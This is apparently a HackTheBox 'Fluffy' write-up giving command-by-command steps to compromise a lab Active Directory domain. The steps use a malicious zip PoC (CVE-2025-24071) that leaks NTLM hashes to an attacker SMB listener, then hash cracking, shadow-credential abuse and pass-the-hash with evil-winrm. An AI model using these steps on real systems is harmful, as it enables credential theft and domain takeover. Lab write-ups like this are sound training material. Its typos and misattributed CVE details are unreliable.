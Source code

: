
# Executive Summary – HTB Fluffy

The HTB Fluffy machine is an "Easy" rated Windows Active Directory environment designed to simulate a real-world enterprise network. 

This engagement commenced with initial access via valid credentials for the user `j.fleischman`, provided in a compromised state. Subsequent enumeration and exploitation revealed several critical vulnerabilities:

## Successful Attacks / Compromise
- **CVE-2025-24071**: Vulnerability in Simple DNS Plus allowing NTLMv2 hash extraction.
- **Shadow Credentials Misuse**: Exploitation of GenericWrite permissions to escalate privileges.
- **ESC16 (UPN Spoofing)**: Abuse of Active Directory Certificate Services to forge certificates for administrative access.

> By chaining these vulnerabilities, full domain compromise was achieved, demonstrating the importance of robust credential management and configuration in Active Directory environments.

## Other Findings / Unsuccessful Attacks
- Listing domain users via `rpcclient enumdomusers`, revealing accounts like `Administrator`, `Guest`, `krbtgt`, service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`), and user accounts (`j.coffey`, `p.agila`).  
- Gathering user information via `rpcclient queryuser j.fleischman` (password last set time, logon details, account privileges).  
- Collecting server information via `rpcclient srvinfo` (platform, OS version).  
- Kerberoasting attempted using `GetUserSPNs.py` with valid credentials. Extracted TGS hashes were tested with `Hashcat -m 13100` using wordlists (`rockyou.txt`, `johnlist`, `10k-most-common.txt`) without success.

## Key Takeaways
- Full domain compromise is possible via chained AD vulnerabilities.  
- Valid user credentials provide substantial access for enumeration.  
- Kerberoasting is a high-value attack vector, but strong service account passwords mitigate risk.  
- Detailed AD enumeration (users, groups, privileges) is critical before attempting privilege escalation.


# Detailed reproduction steps for this CVE-2025-24071 & Shadow Credentials Misuse

`sudo nmap -sC -sV 10.129.165.40`
NMAP is tool ised for port scanning, service dction and network disocver. -sC runs nmap defaul scripts and sV treis to idnefy the exact software running. 

![Alt Text]https://fm171.github.io/HTB-FLUFFY/images/nmap_scan.png)

Next enumrate SMB share
`smbmap -H 10.129.165.40 -u "j.fleischman -p J0elTHEM4n1990!"`
 <img src="images/smbmap.png" class="report-images" alt="SMBMAP">

Form this we wee have read and write to IT share so lets see connect to that share and see if there is anything in it. 
```smbclient //10.129.165.40/IT -U "j.fleischman"`
Password for [WORKGROUP\j.fleischman]:
Should see:
smb: \> ls
  .                                   D        0  Fri Sep  5 20:08:31 2025
  ..                                  D        0  Fri Sep  5 20:08:31 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025

Download UPgrade_Notice.pdf and you will see a list of vulnerbites that need patching. 
![!PDF on the SMB](images/notice.png)

To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should see username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`
7. `BloodHound`
8. Should see BloodHound open in new tab in firefox
9. Upload the ladp file we created to upload 
10. Search for User we enumerated
11. Examine relationships and you will see this 
![Nmap Scan](images/bloodhound.png)
12. If examine WINRM_SVC in BloddHound, it is member of remote services add can remote login. If we try to use EVil-winrm for user p.agila or J.FLEISCHMAN will see users dint have permisison. 

Observations form BloodHound

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Start a virtual environment in your folder and install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`


---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`



`faketime <DATE_TIME> python3 gettgtpkinit.py \ -cert-pem key_cert.pem \ -key-pem key_priv.pem \ fluffy.htb/<SERVICE_ACCOUNT> \  <SERVICE_ACCOUNT>.ccache`


### Set the Kerberos ticket environment variable:

> Why we do this: 

 > When you log in with a valid ticket, it gets stored in /tmp/krb5cc_<UID>.

> All Kerberos-enabled tools (smbclient, psexec.py, ldapsearch, etc.) will look in that default location to authenticate.

> But in a pentest, you often manually extract or forge tickets (e.g., with impacket, Mimikatz, or AD CS attacks). Those tickets don’t automatically go to /tmp/krb5cc_<UID>. They’re saved in a .ccache file.

> So, to make Kerberos-aware tools use your forged/extracted ticket, you tell them where it is:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

`faketime <DATE_TIME> python3 getnthash.py \ -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>`

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



